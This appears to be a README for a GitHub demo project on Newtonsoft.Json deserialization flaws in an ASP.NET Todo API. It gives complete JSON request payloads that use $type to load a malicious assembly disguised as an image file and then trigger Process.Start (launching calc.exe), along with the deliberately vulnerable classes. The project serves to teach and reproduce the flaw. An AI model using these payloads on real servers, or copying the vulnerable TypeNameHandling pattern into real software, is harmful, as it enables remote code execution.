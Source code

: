 # Introduction

This project demonstrates serialization vulnerabilities using Newtonsoft.Json and BinarySerialization. The Todo project is baseed on the starter tutorial available here:

[Create a controller based API](https://learn.microsoft.com/en-us/aspnet/core/tutorials/first-web-api?view=aspnetcore-7.0&tabs=visual-studio)

These examples were assembled based on serialization vulnerabilities highlighted in the [ysoserial.net](https://github.com/pwntester/ysoserial.net) git repo. This example reproduces a remote code execution vulnerability by exploiting the Newtonsoft.Json serializer. 

Prequistes

Install .NET Framework 4.8.1:

``` 
winget install Microsoft.DotNet.Framework.DeveloperPack_4 -v 4.8.1
```

The [TypeNameHandling property](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm) exposes a deserialization vulnerability then the value is set to anything other than _None_. This informs the deserialization process to resolve a type using the _$type_ property.
``` JSON
{
    "$type": "System.IO.FileInfo, System.IO.FileSystem",
    "fileName": "rce-test.txt"
}
```
This example creates a _System.IO.FIleINfo_ instance and set the _FIleName_ property to "rce_test.txt." This could potentially be used to exfiltrate file information on the host environment. The examples in this repo make use of a generic dictionary to pass malicious payloads. The _TodItem_ class has twp vulnerabile properties. _Metadata_ accepts a _Dictionary<string, object>_ and _BinaryMetadata_ accepts a class that uses a _BinaryFormatter_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
    public List<MetadataItem>? BinaryMetadata { get; set; }
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
# How to Reproduce

This project uses a simple ToDo REST API to demonstrate this JSON RCE vulnerability. The MaliciousAssembly project includes this property which calls _Process.Start_ using the property value.

``` C#
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

## Upload malicious file

During complication, this assembly is placed in the bin directory of the ToDo web api with the file name _someimage.png_. This substitutes for a REST API with a file upload endpoint. In a production environment, this could be placed in Azure Blob storage and referenced by a URL.

## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _todo-badpath.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## JSON Vunlnerability

The JSON vulnerability is exposed in Newtonsoft.Json through the use of `TypeNameResolver.`

With .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

